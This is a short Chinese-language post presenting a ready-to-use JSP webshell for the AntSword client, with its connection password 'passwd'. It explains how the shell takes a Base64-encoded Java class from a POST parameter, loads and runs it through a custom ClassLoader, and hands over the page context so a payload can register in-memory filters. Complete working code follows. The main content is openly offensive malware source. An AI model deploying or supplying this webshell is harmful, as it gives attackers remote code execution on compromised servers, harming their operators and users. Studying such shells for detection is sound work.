

蚁剑jsp一句话木马，连接密码：`passwd`



这段木马是一个加载器（loader），它从 POST 方法的参数 passwd 拿到一段 Base64 编码的 Java 程序（.class 字节码），先解码，再用自定义 ClassLoader 把这个程序动态加载进 JVM，然后直接实例化（newInstance()）——此时程序开始运行（运行的是 static{} 或构造器里的逻辑）。

跑完后，它还会调用这个程序的 equals() 方法，把 JSP 的 pageContext（服务器现场信息）递过去，方便程序拿到 request/response、注册 Filter 用于 WebShell / 内存马利用场景。

```java
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }

    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("passwd");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
```